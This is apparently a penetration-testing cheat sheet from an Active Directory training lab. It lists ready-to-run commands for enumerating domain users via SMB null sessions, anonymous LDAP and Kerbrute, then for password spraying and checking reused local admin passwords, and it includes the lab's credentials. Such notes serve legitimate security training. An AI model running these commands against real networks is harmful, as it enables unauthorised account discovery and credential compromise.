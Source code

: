 ### Pull User list with SMB NULL sessions.
#### enum4linux
```shell
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```
#### rpcclient
```shell
rpcclient -U "" -N 172.16.5.5

enumdomusers
```
#### CrackMapExec
```shell
crackmapexec smb 172.16.5.5 --users
```
### Get users with LDAP Anonymous
#### ldap search
```shell
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```
#### windapsearch
```shell
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

### Enumerate Users with Kerbrute 
Using [jsmith.txt](https://github.com/insidetrust/statistically-likely-usernames/blob/master/jsmith.txt)wordlist
```shell
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 jsmith.txt -o users
```
Get all users with CME
```shell
sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```

##  Internal Password Spraying from Linux
### Find a valid username:password
#### RPCClient
```shell
for u in $(cat valid_users.txt);do rpcclient -U "$u%<password>" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
#### Kerbrute 
```shell
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  <password>
```
#### CrackMapExec
```shell
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
### Validate 
```shell
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```
### Local Administrator Password Reuse
Target high value targets such as SQL and Microsoft Exchange
**Password Formats**
$desktop%@admin123